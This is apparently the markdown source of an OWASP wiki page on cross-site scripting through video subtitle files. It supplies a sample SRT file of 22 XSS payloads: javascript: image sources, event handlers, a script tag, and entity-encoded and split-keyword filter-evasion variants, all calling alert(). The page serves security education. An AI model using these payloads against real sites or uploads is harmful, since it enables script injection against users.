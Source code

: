 ```yaml
---

layout: col-sidebar
title: Xss in subtitle
author: 
contributors: 
permalink: /attacks/Xss_in_subtitle
tags: attack, Xss in subtitle
auto-migrated: 1

---
```


{% include writers.html %}

## Description

It is possible for an attacker to execute JavaScript in a video's
subtitle. This is also referred to as XSS (Cross-Site Scripting).if a
website load subtitle separately in browser then a attacker can run any
html or javascript in video subtitle. It has been tested on some video
services.

## Examples

the attacker can save the mentioned contents below by the format of srt
and upload prepared srt file as a video's subtitles

﻿

1
﻿ 00:00:37,618 --\> 00:00:42,557
﻿ \<font color="\#ffff00"\>: '';\!--"\<XSS\>=&{()}\</font\>

2
﻿ 00:00:58,425 --\> 00:01:00,704
﻿ <IMG SRC="javascript:alert('XSS');">

3
﻿ 00:01:00,705 --\> 00:01:01,873
﻿ <IMG SRC=javascript:alert('XSS')>

4
﻿ 00:01:02,225 --\> 00:01:04,519
﻿ <IMG SRC=javascript:alert('XSS')>

5
﻿ 00:01:04,520 --\> 00:01:05,547
﻿ <IMG SRC=javascript:alert('XSS')>

6
﻿ 00:01:05,864 --\> 00:01:08,117
﻿ <IMG SRC=javascript:alert('XSS')>

7
﻿ 00:01:08,224 --\> 00:01:09,223
﻿ \<IMG """\>

    <SCRIPT>

    alert("XSS")

    </SCRIPT>

"\>

8
﻿ 00:01:09,224 --\> 00:01:10,434
﻿ <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

9
﻿ 00:01:11,384 --\> 00:01:12,427
﻿ <IMG SRC=# onmouseover="alert('xxs')">

10
﻿ 00:01:15,504 --\> 00:01:17,506
﻿ <IMG SRC= onmouseover="alert('xxs')">

11
﻿ 00:01:19,743 --\> 00:01:20,786
﻿ <IMG onmouseover="alert('xxs')">

12
﻿ 00:01:24,183 --\> 00:01:25,351
﻿ <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

13
﻿ 00:01:40,663 --\> 00:01:41,705
﻿
<img src=xonerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

14
﻿ 00:01:42,703 --\> 00:01:45,742
﻿ \<IMG SRC=<javascript:alert>( 'XSS')\>

15
﻿ 00:01:45,743 --\> 00:01:46,285
﻿ \<IMG SRC=&\#0000106&\#0000097&\#0000118&\#0000097&\#0000115&\#0000099&\#0000114&\#0000105&\#0000112&\#0000116&\#0000058&\#0000097&
\#0000108&\#0000101&\#0000114&\#0000116&\#0000040&\#0000039&\#0000088&\#0000083&\#0000083&\#0000039&\#0000041\>

16
﻿ 00:01:48,503 --\> 00:01:49,545
﻿ <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

17
﻿ 00:01:49,582 --\> 00:01:51,709
﻿ <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

18
﻿ 00:01:54,822 --\> 00:01:58,200
﻿ <IMG SRC="jav   ascript:alert('XSS');">

19
﻿ 00:02:01,021 --\> 00:02:03,691
﻿ <IMG SRC="jav
  ascript:alert('XSS');">

20
﻿ 00:02:04,702 --\> 00:02:05,744
﻿ <IMG SRC="javascript:alert('XSS');">

21
﻿ 00:02:15,700 --\> 00:02:18,536
﻿ \<IMG SRC="<javascript:alert>('XSS')"

22
﻿ 00:02:18,740 --\> 00:02:22,619
﻿ \\";alert('XSS');//



# Authors and Primary Editors

Mohammad MortazaviZade - 2mzrp2@gmail.com

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [XSS Attacks](XSS_Attacks "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")
  - [Invoking untrusted mobile
    code](Invoking_untrusted_mobile_code "wikilink")
  - [Cross Site History Manipulation
    (XSHM)](Cross_Site_History_Manipulation_\(XSHM\) "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")
  - [Cross Site Scripting Flaw](Cross_Site_Scripting_Flaw "wikilink")
  - [Types of Cross-Site
    Scripting](Types_of_Cross-Site_Scripting "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")
  - [HTML Entity Encoding](HTML_Entity_Encoding "wikilink")
  - [Output Validation](Output_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## Categories

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink") [Category:Code
Snippet](Category:Code_Snippet "wikilink")
